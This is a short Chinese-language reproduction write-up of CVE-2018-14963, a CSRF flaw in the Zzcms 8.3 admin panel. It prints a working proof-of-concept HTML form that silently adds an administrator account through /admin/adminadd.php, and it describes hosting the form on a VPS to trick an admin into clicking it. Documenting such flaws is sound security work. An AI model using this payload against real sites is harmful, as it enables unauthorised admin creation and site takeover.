 （CVE-2018-14963）Zzcms 8.3 csrf
================================

一、漏洞简介
------------

二、漏洞影响
------------

Zzcms 8.3

三、复现过程
------------

csrf漏洞，这个问题也是从上个版本就存在的问题，就是整个管理员后台的，所有表单都是没有设置csrf的token的，所以只要涉及到敏感操作的表单，都可以使用csrf来攻击，达成很多攻击利用。

这里的攻击是产生在了/admin/adminadd.php的添加管理员操作，构造的表单如下：

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://0-sec.org:8080/admin/adminadd.php?action=add" method="POST">
          <input type="hidden" name="groupid" value="1" />
          <input type="hidden" name="admins" value="123" />
          <input type="hidden" name="passs" value="123" />
          <input type="hidden" name="passs2" value="123" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

构造好了payload以后，放到vps上，然后诱导管理员点击恶意链接，即可成功添加管理员。

未添加管理员之前：

![](./resource/(CVE-2018-14963)Zzcms8.3csrf/media/rId24.png)

点击链接之后：

![](./resource/(CVE-2018-14963)Zzcms8.3csrf/media/rId25.png)

参考链接
--------

> <https://www.anquanke.com/post/id/156660>
